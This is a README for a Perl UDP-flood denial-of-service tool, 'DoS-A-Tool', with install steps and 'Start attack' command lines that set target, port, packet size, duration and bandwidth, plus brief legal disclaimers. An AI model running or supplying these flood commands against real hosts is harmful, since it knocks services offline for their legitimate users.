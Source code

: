 # DoS-A-Tool v.1.5

        Denail of Service Attack Tool (DoS-A-Tool)

A distributed denial-of-service (DDoS) attack is an attack in which multiple compromised computer systems attack a target, such as a server, website or other network resource, and cause a denial of service for users of the targeted resource. The flood of incoming messages, connection requests or malformed packets to the target system forces it to slow down or even crash and shut down, thereby denying service to legitimate users or systems.

# INSTALLATION
        $ yes|apt install git perl

	$ git clone https://github.com/ivam3/DoS-A-Tool.git

	$ cd DoS-A-Tool

	$ chmod 751 DoS-A-Tool

# USAGE

- For get a help menu :

        $ perl DoS-A-Tool --help

- Start attack :

        $ perl DoS-A-Tool 0.0.0.0
        $ perl DoS-A-Tool 0.0.0.0 --port 1985
        $ perl DoS-A-Tool 0.0.0.0 --port 1985 --size 1000 --time 43200
        $ perl DoS-A-Tool 0.0.0.0 --port 1985 --time 43200 --bandwidth 25000 --delay 500

- Defaults:
  * random destination UDP ports are used unless --port is specified.
  * random-sized packets are sent unless --size or --bandwidth is specified.
  * flood is continuous unless --time is specified.
  * flood is sent at line speed unless --bandwidth or --delay is specified.

- Usage guidelines:
  * --size parameter is ignored if both the --bandwidth and the --delay
    parameters are specified.
  * Packet size is set to 256 bytes if the --bandwidth parameter is used.
    without the --size parameter
  * --time duration of the execution of the attack in seconds.
  * --bandwidth specify the bandwidth to use in kbps.
  * --delay interval in milliseconds(msec) between sending packets.

  * The specified packet size is the size of the IP datagram (including IP and
    UDP headers). Interface packet sizes might vary due to layer-2 encapsulation.

- Warnings and Disclaimers:
  * Flooding third-party hosts or networks is commonly considered a criminal activity.
  * Flooding your own hosts or networks is usually a bad idea
  * Higher-performace flooding solutions should be used for stress/performance tests
  * Use primarily in lab environments for QoS tests.

To get help join to : https://t.me/Ivam3_Bot

# Coded by Ivam3
